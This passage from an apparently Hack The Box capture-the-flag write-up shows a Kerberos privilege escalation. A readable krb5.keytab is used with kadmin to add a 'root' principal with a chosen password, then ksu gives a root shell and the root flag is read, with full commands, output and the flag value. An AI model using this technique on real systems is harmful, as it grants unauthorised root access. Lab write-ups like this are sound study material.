 Now, to make use of the **krb5.keytab** file, we can use [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html) (which is a command-line interface to the Kerberos administration system) in order to try a possible privesc <br>

From the above link (kadmin) we can see the available commands. We can **add_princiapl newprinc** and set the password for it. Since 

```bash
cmd: kadmin -k -t krb5.keytab -p kadmin/admin@REALCORP.HTB

cmd (kadmin): list_principals
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB

cmd (kadmin): add_principal root
Password: wazagod
Re-enter Password: wazagod
```
Now we need to login as the new principal. For that, we can use the kerberos utility [KSU](https://web.mit.edu/kerberos/krb5-latest/doc/user/user_commands/ksu.html)
```
cmd: ksu root
Password: wazagod

cmd: whoami && id
root
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

cmd: cat /root/root.txt
# FLAG: 39aa2f621d5770b2c11975127be1a1d1
```

